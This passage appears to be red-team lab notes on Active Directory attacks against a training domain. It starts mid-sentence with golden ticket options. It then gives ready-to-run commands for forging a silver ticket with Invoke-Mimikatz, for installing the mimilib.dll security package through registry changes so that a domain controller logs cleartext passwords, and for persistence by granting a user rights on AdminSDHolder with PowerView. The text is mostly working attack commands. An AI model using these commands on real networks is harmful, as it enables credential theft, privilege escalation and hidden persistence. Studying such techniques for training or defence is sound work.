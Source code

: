 save the ticket on disk(Stealthier due the time validation time taken to validite the TGT),Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future, Optional ticket lifetime (default is 10 years) in minutes.The default AD setting is 10 hours = 600 minutes,Optional ticket lifetime with renewal (default is 10 years)in minutes. The default AD setting is 7 days = 100800*

# Silver ticket (Similar command can be used for any other service on a machine.Which services? HOST, RPCSS, HTTP and many more):
`Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'` The only diff with the command above is this : /target:dcorp-dc.dollarcorp.moneycorp.local Target server FQDN, /service:cifs The SPN name of service for which TGS is to be created)

# Mimikatz provides a custom SSP - mimilib.dll. This SSP logs local logons, service account and machine account passwords in clear text on the target server. Drop the mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages. All local logons on the DC are logged to
C:\Windows\system32\kiwissp.log
`$packages = Get-ItemProperty
HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty
HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security
Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name
'Security Packages' -Value $packages`


# (Persisting through AD Group Templates)
## Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA:
`Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose`
## Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder( Go for what you exactly need and not the full permisions):
`Add-DomainObjectAcl -TargetIdentity'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose`
